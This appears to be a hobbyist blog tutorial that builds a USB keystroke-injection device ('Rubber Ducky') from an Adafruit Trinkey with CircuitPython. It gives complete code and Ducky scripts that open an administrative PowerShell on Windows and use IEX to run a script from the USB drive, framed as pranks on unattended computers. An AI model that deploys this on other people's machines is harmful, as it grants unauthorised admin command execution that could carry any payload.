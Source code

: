 Ever wanted to prank someone by changing their wallpaper or running a script when they walk away from their computer? It's a lot easier than you think! I will show you how to create your own USB Rubber Ducky for just \$10, a fraction of the cost of Hak5's \$70 Rubber Ducky!

We'll use the **Adafruit Trinkey QT2040 - RP2040** and CircuitPython to make a fully functional "keyboard injection" tool that can automate tasks, execute scripts, and more.

---
## Materials You'll Need

1. [Adafruit Trinkey QT2040 - RP2040](https://www.adafruit.com/product/5056)
2. A computer with USB ports.
3. Basic programming tools like a text editor.

---

## Step 1: Set Up CircuitPython

1. **Download CircuitPython**  
    Visit the [Adafruit CircuitPython page](https://circuitpython.org/board/adafruit_qt2040_trinkey/) and download the latest `.uf2` file for the QT2040 Trinkey.  (**9.2.1**)
    ![CircuitPython Download](image1.png)
    
2. **Put the Trinkey into Bootloader Mode**
    - Hold down the **BOOT/BOOTSEL** button (red in the image below).
![[buttons.jpg]]
    - While holding, press and release the **Reset** button (blue) and connect the Trinkey to your computer.
    - Continue holding the **BOOT/BOOTSEL** button until the `RPI-RP2` drive appears.  
        ![Bootloader Mode](image2.png)
3. **Copy the `.uf2` File**  
    Drag and drop the `.uf2` file that you downloaded earlier onto the `RPI-RP2` drive. The device will restart, and you should now see a new drive labeled `CIRCUITPY`.  
    ![Drive Ready](image3.png)
    
4. **Prepare for Coding**
    - If you are missing a file named `code.py` on the `CIRCUITPY` drive, create it.
    - If you are missing a folder named `lib` inside the `CIRCUITPY` drive, create it.  
    - Create a folder named `scripts` inside the `CIRCUITPY` drive for our scripts.
	![[image.png]]

---

## Step 2: Safe Mode

By default, the USB will try to run code every time you plug it in to a device (duh!). While we work on it we don't want this, because it will also run anytime one of it's files changes. To bypass this, when you plug in the device click the `RESET` button twice and the device should flash yellow 3 times, signaling it is in Safe mode. If you need a refresher on which button that is, please look at Step 1 again.

---

## Step 3: Install Necessary Libraries

1. Download the **CircuitPython 9.x Library Bundle** from [Adafruit Libraries](https://circuitpython.org/libraries).
2. Extract the bundle and copy these files to your `CIRCUITPY` drive, place both folder and file in `lib`:
    - **`adafruit_hid`** folder (for USB HID functionality)
    - **`adafruit_ducky.mpy`** (for Rubber Ducky script support)

or [download my premade bundle for 9.x](https://blog.sstock.dev/static/downloads/bundle.zip)

---

## Step 4: Write our `code.py`

Open the `code.py` file and paste in the following Python code:

```python
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS
from adafruit_hid.keyboard import Keyboard
import adafruit_ducky
import usb_hid
import time

time.sleep(1)

keyboard = Keyboard(usb_hid.devices)
keyboard_layout = KeyboardLayoutUS(keyboard)

duck = adafruit_ducky.Ducky("scripts/ducky.txt", keyboard, keyboard_layout)

while True:
    result = duck.loop()
    if not result:
        break
```

**Code Explanation**
We first import the libraries we installed when we copied over the files to `lib`. Then we have the USB sleep for a second to let it boot up. We create a `Keyboard` object and a `KeyboardLayoutUS` from the `Keyboard` object. We can then create a `Ducky` object from those two, and we point it to where our ducky script will be on the drive.

Now that we have our variables, we then loop through the ducky script line by line until the script ends!

---

## Step 5: Writing the Ducky Script

1. Create a new text file named `ducky` inside of our `scripts` folder on the `CIRCUITPY` drive and paste this in:
```
GUI x
DELAY 500
STRING a
DELAY 500
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 500
ENTER
DELAY 1000
STRING echo "you've been hacked!" > ([Environment]::GetFolderPath("Desktop") + "\hacked.txt"); exit;
ENTER
```
2. This script opens an administrative PowerShell session on Windows 11 and creates a text file on the desktop named `hacked`. This takes about ~5 seconds to execute on my laptop.
![Ducky Script Showcase](video1.mp4)

Try it out! Unplug your USB and plug it back in to see it work!

---

## Advanced Use Case: Changing the Wallpaper

Now that you've had a taste! Let's try doing some funny PowerShell stuff!

Find a funny image you want to make your friends wallpaper. I'm going to use this one:
![[wallpaper.jpg]]

Create a new folder on your `CIRCUITPY` called `resources` and put your image there! Make sure it's named `wallpaper.jpg`.
### Step 1: PowerShell Time!

Create a new text file in `scripts` called `iexscript.txt` on the `CIRCUITPY` drive and paste the following in:

```powershell
$WallpaperPath = ((Get-Volume -FileSystemLabel 'CIRCUITPY').DriveLetter + ":\resources\wallpaper.jpg")

Add-Type @"
using System.Runtime.InteropServices;
public class Wallpaper {
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
}
"@

[Wallpaper]::SystemParametersInfo(0x0014, 0, $WallpaperPath, 0x01 -bor 0x02)
exit
```

**Code Explanation**
This is a simple PowerShell script that we are going to call with our ducky script! It creates a C# object that contains code to replace a user's wallpaper and then calls it in PowerShell!
### Step 2: Back to `ducky.txt`!

Open your `ducky.txt` inside of your `scripts` folder in the `CIRCUITPY` drive, delete what you have and paste in the following:
```
GUI x
DELAY 500
STRING a
DELAY 500
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 500
ENTER
DELAY 1000
STRING IEX (Get-Content ((Get-Volume -FileSystemLabel 'CIRCUITPY').DriveLetter + ":\scripts\iexscript.txt") -Raw);
ENTER
```

This code will (again) open an administrative PowerShell, but this time it will use `IEX`. Essentially `IEX` will execute the statement after it, and the whole `Get-Content` thing basically finds our cool `iexscript.txt` file on our USB and give it to `IEX` and `IEX` runs it! **Make sure you have a `resources` folder and a `wallpaper.jpg` file inside of it or this script will not work!**

Try it out! Unplug your USB and plug it in to see it work!

![Wallpaper Showcase](video2.mp4)

---

Congratulations! You're now a master hacker and can prank your friends by changing their wallpaper!

---

Please reach out to me if you have any comments or feedback! Contact: [sstock2005.business@gmail.com](mailto:sstock2005.business@gmail.com)